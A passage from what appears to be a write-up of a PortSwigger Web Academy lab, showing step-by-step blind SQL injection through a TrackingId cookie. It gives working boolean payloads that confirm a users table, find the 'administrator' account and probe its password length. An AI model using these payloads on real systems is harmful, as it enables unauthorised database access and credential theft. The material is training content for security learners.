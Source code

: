 We haven't found out anything what Portswigger Web Academy hasn't already told us, but this is how we would verify the SQL Injection vulnerability, in this case, based on output in the response.

Now let's enumerate the database.

## Database Enumeration

Everything we do now it's all about finding out if Database has returned something or not. If not, our check has failed. It's really just asking and observing YES and NO.

So let's ask our database yes/no questions
### Does the `users` table exist
We can use FROM statement and compare SELECT with same string:
```
TrackingId=non-existent' OR (SELECT 'a' from Users LIMIT 1)='a' --
```
![picture 32](/assets/images/f998b78c783d644e258e5f393f172389fef0978fa5c77bc930521e704765ec75.png)  
Result: YES

### Does the `Administrator` user exist
```
TrackingId=non-existent' OR (SELECT 'a' from Users where username='Administrator' LIMIT 1)='a' --
```
Short answer: NO

### Does the `administrator` exist
```sql
TrackingId=non-existent' OR (SELECT 'a' from Users where username='administrator' LIMIT 1)='a' --
```
Short answer: Yes it does!

### How long is the `administrator`'s password (is it longer than 3 characters)
```sql
TrackingId=non-existent' OR (SELECT 'a' from Users WHERE username='administrator' AND LENGTH(password)>3)='a' --;
```
Short answer: Yes, password is longer then 3 characters.
